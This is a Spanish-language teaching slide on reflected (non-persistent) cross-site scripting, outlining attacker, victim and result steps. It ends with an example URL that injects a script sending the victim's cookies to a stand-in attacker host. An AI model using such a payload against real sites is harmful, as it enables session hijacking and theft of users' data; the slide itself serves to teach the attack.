

# Cross Site Scripting no persistente
 el código que insertamos no se queda almacenado en la web, sino que va embebido dentro de un enlace
atacante
Envia mail con un link con etiqueta <script>
incrustada

victima
Abre el link y el script se ejecuta

resultado
Robo de información del usuario
http://mibanco.com/account.php/variable=""><script>document.location=http:/tipomalo.com/cgi-bin/cookie.cgi""%20+document.cookie</script>